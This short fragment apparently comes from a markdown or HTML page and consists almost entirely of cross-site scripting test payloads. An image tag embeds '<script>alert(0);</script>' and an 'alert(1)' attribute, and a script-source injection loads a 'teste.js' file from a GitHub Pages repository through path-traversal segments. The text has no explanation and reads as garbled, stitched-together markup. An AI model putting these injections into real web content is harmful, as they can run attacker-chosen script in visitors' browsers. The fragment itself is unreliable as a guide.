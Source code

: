 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" rel="<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;" width="alert(1)">
